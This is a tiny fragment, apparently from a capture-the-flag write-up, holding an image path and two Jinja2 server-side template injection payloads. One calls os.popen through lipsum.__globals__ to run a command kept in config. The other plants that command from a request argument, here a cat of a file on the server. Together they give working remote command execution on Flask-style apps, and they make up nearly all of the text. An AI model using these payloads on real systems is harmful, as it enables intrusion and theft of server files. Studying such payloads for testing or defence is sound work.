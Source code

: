 SSTI:

*{{lipsum.__globals__.os.popen(config.x).read()}}


*{{config.update(x=request.args[%27a%27])}}&a=cat%20truly_an_arbitrarily_named_file
